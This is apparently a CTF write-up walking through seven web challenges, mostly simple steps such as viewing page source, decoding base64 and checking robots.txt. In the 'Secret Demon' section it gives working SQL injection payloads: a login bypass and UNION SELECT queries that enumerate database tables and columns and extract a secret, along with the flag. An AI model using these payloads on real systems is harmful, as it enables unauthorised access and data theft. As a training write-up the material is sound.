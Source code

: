 ## Challenges
1. Lorem lpsum
2. My First Website
3. My Second Website
4. Consoling
5. Takeover
6. Secret Deomn
7. Live App

## Lorem Ipsum
![](/web/Lorem%20Ipsum/challenge.png)

o	Step 1 : Go to the link
![](/web/Lorem%20Ipsum/1.png)

o	Step 2: view the source to find the flag
![](/web/Lorem%20Ipsum/2.png)


## My First Website
![](/web/My%20First%20Website/challenge.png)

•	My First Website

o	Step 1: Go to the link
![](/web/My%20First%20Website/1.png)

o	Step 2: Inspect element, there is a base 64 encoded string in the alt field
![](/web/My%20First%20Website/2.png)

o	Step 3: base 64 decode and convert from hex to get the flag
![](/web/My%20First%20Website/3.png)


## My Second Website
![](/web/My%20Second%20Website/challenge.png)

o	Step 1: Go to the link
![](/web/My%20Second%20Website/1.png)

o	Step 2: add robots.txt behind the url
![](/web/My%20Second%20Website/2.png)

o	Step 3: Go to the html page
![](/web/My%20Second%20Website/3.png)


## Consoling

![](/web/Consoling/challenge.png)

o	Step 1: Go to the link

![](/web/Consoling/1.png)

o	Step 2: looking at the source, there is 3 different html pages
![](/web/Consoling/2.png)

o	Step 3: going to the realflag.html page
![](/web/Consoling/3.png)

o	Step 4: viewing the source, it says totry listfunctions()
![](/web/Consoling/4.png)

o	Step 5: try list functions in the console
![](/web/Consoling/5.png)

o	Step 6: run the get flag and get key function to get the flag
![](/web/Consoling/6.png)



## Takeover
![](/web/Takeover/challenge.png)

o	Step 1: Go to the link

![](/web/Takeover/1.png)


o	Step 2: Go to robots.txt

![](/web/Takeover/2.png)


o	Step 3: Going to the flag.html page, 

![](/web/Takeover/3.png)


o	Step 4: search for the } as there are many strings which start with NYP{

![](/web/Takeover/4.1.png)

![](/web/Takeover/4.2.png)

![](/web/Takeover/4.3.png)

## Secret Demon
```
This was solved after the CTF
```
![](/web/Secret%20Demon/challenge.png)


o	Step 1: use the payload below as the username and any character in the password field to login
```
admin' or 1=1 #
```
![](/web/Secret%20Demon/before_login.png)
![](/web/Secret%20Demon/logged%20in.png)


o	Step 2: use the payload below in the search field to list all the tables in the database
```
'UNION SELECT table_schema, table_name, 1 From information_schema.tables#
```
![](/web/Secret%20Demon/tables.png)
![](/web/Secret%20Demon/sec_chal_table.png)


o	Step 3: use the payload below in the search field to list the columns in security_challenge.oni_xyza table
```
' UNION SELECT table_name, column_name, 1 FROM information_schema.columns where table_name = 'oni_xyza'#
```
![](/web/Secret%20Demon/column.png)


o	Step 4: use the payload below in the search field to list the secret column in the oni_xyza table to get the flag
```
'UNION SELECT NULL, NULL, secret From security_challenge.oni_xyza #
```
![](/web/Secret%20Demon/flag.png)

```
flag: NYP{T4mAy0_i5_Qu33N}
```

## Live App
```
unsolved
```
![](/web/Live%20App/challenge.png)
